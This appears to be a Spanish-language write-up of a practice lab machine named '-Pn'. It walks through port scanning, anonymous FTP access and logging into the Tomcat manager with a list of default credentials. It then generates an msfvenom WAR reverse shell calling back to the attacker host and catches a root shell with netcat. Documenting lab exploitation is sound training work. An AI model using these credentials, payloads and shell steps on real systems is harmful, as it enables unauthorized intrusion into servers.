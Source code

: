 # Máquina -Pn

Lo primero es desplegar la máquina virtual con el siguiente comando.
```shell
bash auto_deploy.sh pn.tar
```

Copiamos la ip que nos da la máquina al desplegarla y realizamos el escaneo de puertos con este comando.
```shell
sudo nmap -sSCV -n -Pn --min-rate 5000 -p- --open 172.17.0.2
```

Como podemos observar tenemos abiertos tanto los puertos 21 y 8080

```shell
PORT     STATE SERVICE    REASON
21/tcp   open  ftp        syn-ack
8080/tcp open  http-proxy syn-ack
```
Con lo cual podemos observar que el puerto 21 tiene el servicio ftp.
Vamos a establecer conexión ftp.
```shell
> ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:kali): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> |
```

Ingresamos el comando (ls) para comprobar el contenido del lugar.
Vemos que tiene un archivo llamado tomcat.txt
```shell
ftp> ls
229 Entering Extended Passive Mode (I| |497671)
150 Here comes the directory listing.
-- r ---rw-r   1  0   0   74 Apr 19 07:32 tomcat.txt
226 Directory send OK.
ftp> |
```
Descargamos el archivo tomcat.txt mediante el comando get.

```shell
ftp> get tomcat.txt
local: tomcat. txt remote: tomcat.txt
229 Entering Extended Passive Mode (I| |441991)
150 Opening BINARY mode data connection for tomcat. txt (74 bytes).
100%
226 Transfer complete.
74 bytes received in 00:00 (283.39 KiB/s)
ftp> exit
221 Goodbye.
> ls
tomcat.txt whereismywebshell
> cat tomcat.txt
Hello tomcat, can you configure the tomcat server? I lost the password ...
```
Ahora vamos a comprobar la pagina que tiene el servidor mediante el comando whatweb [IP]
```shell
> whatweb 172.17.0.2:8080
```
Y este sería el resultado
```shell
http://172.17.0.2:8080 [200 OK] Country[RESERVED][ZZ], HTML5, IP[172.17.0.2], Title[Apache Tomcat/9.0.88]
```
Vemos que aloja un servidor web, colocamos en el buscador la ip que en este caso sería 172.17.0.2:8080
- En la página web tenemos un apartado con un link para acceder al manager webapp.
- Hacemos click en ese link.
- Podemos ver que nos salta este formulario para introducir un usuario con su clave.

--------------------------------------------------------------------------------------------------

En un principio debemos probar con las contraseñas predeterminadas de Tomcat
- admin:admin
- tomcat:tomcat
- admin:
- admin:s3cr3t
- tomcat:s3cr3t
- admin:tomcat

En este caso fue usuario (tomcat) y password(s3cr3t)
Una vez dentro debemos crear un reverse shell con un archivo .war para conseguir el acceso a la máquina, para ello contamos con un comando para generar dicho archivo mediante el comando msfvenom.
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war
```
Vemos como se ha creado el archivo correctamente.
Ahora vamos a ponernos en escucha en el puerto 443.
```shell
> nc -lvnp 443
```
Ahora vamos a subir al servidor el archivo creado y establecemos una conexión la máquina víctima con privilegios de root.
```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 59678
whoami
root
```






